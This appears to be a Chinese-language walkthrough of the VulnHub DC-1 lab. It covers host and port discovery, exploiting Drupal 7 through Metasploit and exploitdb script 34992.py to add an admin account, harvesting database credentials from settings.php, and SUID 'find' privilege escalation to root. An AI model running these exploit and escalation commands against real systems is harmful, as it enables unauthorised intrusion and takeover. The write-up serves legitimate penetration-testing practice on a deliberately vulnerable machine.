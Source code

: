 # vulnhub系列——DC-1

# 一、信息收集

1. 先发现主机

   ``` shell
   sudo arp-scan -l
   ```

   ![1.png](img/vulnhub/DC-1/Image1.png)

2. 发现主机，扫描一下端口

   ``` shell
   nmap -Pn -sC -sV 192.168.51.110
   ```

   ![2.png](img/vulnhub/DC-1/Image2.png)

3. 可以看到主机开放了80端口和111端口，主机系统为Debian，中间件是Apache 2.2.22，80端口有一条指纹信息Drupal 7，用whatweb识别一下cms指纹

   ![3.png](img/vulnhub/DC-1/Image3.png)

4. 扫描web目录，这里先看一下状态码200可以直接访问的目录

   ``` shell
   dirsearch -u http://192.168.51.110/ -e * -x 404,403
   ```

   ![4.png](img/vulnhub/DC-1/Image4.png)

5. 发现php版本为5.4.45，cms为Drupal 7，找一下这个cms版本的漏洞信息，这里直接使用msf

   ![5.png](img/vulnhub/DC-1/Image5.png)

# 二、getllshell

1. 这里使用2018年的漏洞模块，查看一下设置

   ![6.png](img/vulnhub/DC-1/Image6.png)

2. 设置好目标IP，exploit开始攻击，直接拿到shell

   ![7.png](img/vulnhub/DC-1/Image7.png)

3. ls发现flag1.txt，拿到第一个flag

   ![8.png](img/vulnhub/DC-1/Image8.png)

4. 进入sites/default目录，ls，发现有一个settings.php文件，查看文件内容，发现第二个flag

   ![9.png](img/vulnhub/DC-1/Image9.png)

5. 在settings.php中发现数据库账号和密码

   ``` shell
   'database' => 'drupaldb',   
   'username' => 'dbuser',   
   'password' => 'R0ck3t',   
   'host' => 'localhost',   
   'port' => '',   
   'driver' => 'mysql',   
   'prefix' => '',
   ```

   ![10.png](img/vulnhub/DC-1/Image10.png)

6. 数据库只允许本地连接，需要获取交互式shell才可以连接数据库，发现有python2，直接使用pyhon反弹交互式shell

   ``` python
   python -c 'import pty; pty.spawn("/bin/bash")'
   ```

7. 在drupaldb数据库的users表中发现账号管理员密码，不过这个加密方式有点复杂

   ``` shell
   admin  $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR
   ```

8. 方法一是修改管理员的密码，方法二是重新添加一个具有管理员权限的账号 在exploitdb中有一个针对Drupal 7版本的攻击脚本，可以增加一个admin权限的用户账号，使用此方法简便了破解admin的密码，更直接，不过此脚本只对7.31以下版本有效。查看 Drupal版本

   ``` shell
   cat /var/www/includes/bootstrap.inc | grep VERSION
   ```

   ![11.png](img/vulnhub/DC-1/Image11.png)

9. 确定版本为7.24，搜索攻击脚本

   ``` shell
   searchsploit Drupal
   ```

   ![12.png](img/vulnhub/DC-1/Image12.png)

10. 使用脚本添加新的管理员账户

    ``` python
    python2 /usr/share/exploitdb/exploits/php/webapps/34992.py -t http://192.168.51.110 -u admin1 -p admin1
    ```

11. 攻击成功，增加新的管理员账户

    ![13.png](img/vulnhub/DC-1/Image13.png)

12. 登录网站，在content模块下找到flag3

    ![14.png](img/vulnhub/DC-1/Image14.png)

# 三、提权

1. 查看一下当前用户权限

   ![15.png](img/vulnhub/DC-1/Image15.png)

2. 当前用户为www-data，权限较低，寻找root可执行文件

   ``` shell
   find / -user root -perm 4000 -print 2>/dev/nullfind / -perm -u=s -type f 2>/dev/null
   ```

   ![16.png](img/vulnhub/DC-1/Image16.png)

3. 找到root可执行文件，路径为/usr/bin/find，cd进入该目录

   ``` shell
   cd /usr/bin/
   ls -l find
   ```

   ![17.png](img/vulnhub/DC-1/Image17.png)

4. 提权

   ``` shell
   find test -exec '/bin/sh' \;
   ```

   ![18.png](img/vulnhub/DC-1/Image18.png)

5. 提权成功，cd到/root目录，找到最后一个flag

   ![19.png](img/vulnhub/DC-1/Image19.png)